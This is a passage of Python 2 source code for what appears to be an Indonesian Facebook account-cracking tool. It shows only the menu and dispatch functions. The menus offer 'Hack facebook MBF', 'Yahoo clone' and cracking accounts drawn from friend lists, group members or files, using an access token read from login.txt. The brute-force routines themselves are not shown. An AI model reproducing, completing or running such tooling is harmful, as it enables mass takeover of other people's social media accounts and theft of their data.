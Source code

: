         keluar()
    os.system("clear")
    print logo
    print 42*"\033[1;96m="
    print "\033[1;96m[\033[1;97m✓\033[1;96m]\033[1;93m Nama \033[1;91m: \033[1;92m"+nama+"\033[1;97m                  "
    print "\033[1;96m[\033[1;97m✓\033[1;96m]\033[1;93m ID   \033[1;91m: \033[1;92m"+id+"\x1b[1;97m              "
    print 42*"\033[1;96m="
    print "\x1b[1;97m1.\x1b[1;93m Hack facebook MBF"
    print "\x1b[1;97m2.\x1b[1;93m Lihat daftar grup               "
    print "\x1b[1;97m3.\x1b[1;93m Informasi akun               "
    print "\x1b[1;97m4.\x1b[1;93m Yahoo clone               "
    print "\n\x1b[1;91m0.\x1b[1;91m Logout            "
    pilih()


def pilih():
    unikers = raw_input("\n\033[1;97m >>> \033[1;97m")
    if unikers =="":
        print "\033[1;96m[!] \x1b[1;91mIsi yang benar"
        pilih()
    elif unikers =="1":
        super()
    elif unikers =="2":
        grupsaya()
    elif unikers =="3":
        informasi()
    elif unikers =="4":
        yahoo()
    elif unikers =="0":
        os.system('clear')
        jalan('Menghapus token')
        os.system('rm -rf login.txt')
        keluar()
    else:
        print "\033[1;96m[!] \x1b[1;91mIsi yang benar"
        pilih()
        
        
def super():
    global toket
    os.system('clear')
    try:
        toket=open('login.txt','r').read()
    except IOError:
        print"\033[1;96m[!] \x1b[1;91mToken invalid"
        os.system('rm -rf login.txt')
        time.sleep(1)
        keluar()
    os.system('clear')
    print logo
    print 42*"\033[1;96m="
    print "\x1b[1;97m1.\x1b[1;93m Crack dari daftar teman"
    print "\x1b[1;97m2.\x1b[1;93m Crack dari teman"
    print "\x1b[1;97m3.\x1b[1;93m Crack dari member grup"
    print "\x1b[1;97m4.\x1b[1;93m Crack dari file"
    print "\n\x1b[1;91m0.\x1b[1;91m Kembali"
    pilih_super()
